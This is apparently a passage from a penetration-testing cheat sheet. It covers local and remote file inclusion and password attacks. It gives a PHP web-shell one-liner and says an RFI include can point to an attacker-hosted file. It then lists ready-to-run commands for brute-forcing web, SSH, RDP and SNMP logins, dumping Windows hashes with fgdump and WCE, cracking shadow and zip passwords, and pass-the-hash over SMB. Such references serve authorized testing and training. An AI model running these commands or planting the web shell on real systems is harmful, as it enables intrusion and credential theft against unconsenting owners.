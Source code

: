 ### LFI/RFI
Suppose you have the ability to include any local php file on the target, and also suppose that you could write any php script to the target. You could write the following PHP code: `<?php echo shell_exec($_GET['cmd']);?>` to obtain code execution via the cmd parameter.

For RFIs, you can just set the PHP include parameter to be a file on your local web server that gives you code execution.

For more information on LFI/RFI vulns, [click here](https://hackersonlineclub.com/lfi-rfi/).

### Password Attacks
List of default credentials: [Open-sez.me](http://open-sez.me/) and [Default-passwords](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)

Wordlists: Kali has wordlists located under /usr/share/wordlists/. There is also a common usernames file under /usr/share/commix/src/txt/usernames.txt

Generate all possible combinations of a list of characters: `crunch [min] [max] [list of characters] -o [output file]`

Generate password lists using words from a website: `cewl [URL]`

Brute force websites using Medusa: `medusa -h [IP] -U [usernames file] -P [passwords file]`

Wordpress brute force: `wpscan --log --batch --url [IP address] --wordlist /usr/share/wordlists/rockyou.txt --username [username] --threads 20`

Brute force web logins: `hydra -l [user] -p [password] [IP] http-post-form "<Login Page>:<Request Body>:<Error message>"`

Brute force RDP: `ncrack -vv --user [user] -P [passwords file] rdp://[IP]`

Brute force SNMP: `hydra -P [passwords file] -v [IP] snmp`

Brute force SSH: `hydra -l root -P [passwords file] [IP] ssh`

Dumping windows password hashes: Send over /usr/share/windows-binaries/fgdump.exe over to the target, and then run fgdump.exe. It will output files in a pwdump file.

Windows credential editor: WCE can search for passwords and steal credentials from memory. It is located under the /usr/share/wce/ directory in Kali.

Brute force pwdump (fgdump output): `john --wordlist=/usr/share/wordlists/rockyou.txt [pwdump file]`

Cracking linux hashes (you will need both /etc/passwd and /etc/shadow):
```
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

Brute force password-protected zip files:
`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt [zip file]`

Pass-the-hash for SMB:
```
export SMBHASH=[Hash]
pth-winexe -U administrator% //[IP] cmd
```

